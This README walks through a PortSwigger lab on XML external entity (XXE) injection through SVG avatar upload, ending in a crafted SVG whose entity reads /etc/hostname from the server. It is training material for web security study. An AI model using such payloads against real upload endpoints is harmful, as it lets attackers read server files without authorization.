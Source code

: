 # XXE Via Image File Upload

This README file shows the steps taken to solve the following lab:

https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

Create or download an SVG, the one I took comes from the [Mozilla SVG Begginer's Tutorial](https://developer.mozilla.org/en-US/docs/Web/SVG/Tutorial/Getting_Started "Mozilla Tutorial On SVG's").

Mozilla Tutorial SVG Markup:

```xml
<svg version="1.1"
     width="300" height="200"
     xmlns="http://www.w3.org/2000/svg">

  <rect width="100%" height="100%" fill="red" />

  <circle cx="150" cy="100" r="80" fill="green" />

  <text x="150" y="125" font-size="60" text-anchor="middle" fill="white">SVG</text>

</svg>
```

Mozilla Tutorial SVG Rendered:

![Mozilla SVG](./mozilla-svg.svg "Mozilla SVG Rendered")

SVG Markup After Removing Circle:

```xml
<svg version="1.1"
     width="300" height="200"
     xmlns="http://www.w3.org/2000/svg">
  <rect width="100%" height="100%" fill="red" />
  <text x="150" y="125" font-size="60" text-anchor="middle" fill="white">SVG</text>
</svg>
```

![Mozilla SVG Without Circle](./mozilla-svg-no-circle.svg "Mozilla SVG With Circle Removed")


Same SVG **AFTER** Adding XXE External Entity Injection:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "/etc/hostname"> ]>
<svg version="1.1"
     width="600" height="200"
     xmlns="http://www.w3.org/2000/svg">
  <rect width="100%" height="100%" fill="red" />
  <text x="300" y="125" font-size="60" text-anchor="middle" fill="white">&xxe;</text>
</svg>
```

After Uploading Exploit SVG File And Downloading Comment Avatar:

![Hostname Avatar](./hostname.png "Hostname Returned As Avatar")
